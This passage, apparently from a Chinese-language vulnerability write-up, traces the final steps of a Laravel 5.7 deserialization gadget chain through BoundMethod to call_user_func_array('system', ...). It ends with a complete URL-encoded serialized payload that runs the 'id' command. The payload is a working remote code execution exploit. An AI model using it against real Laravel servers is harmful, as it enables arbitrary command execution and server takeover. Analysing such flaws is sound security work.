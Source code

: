 `static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

```
call_user_func_array('system',array('id')) 
```

此时run函数中$exitcode值即为命令的执行结果

![image](../img/a31fb633d5645ab965fa5e9d3258e24f.png)

```
payload：
http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D 
```

![image](../img/2af9e9fce777280991594ab77492ad0e.png)
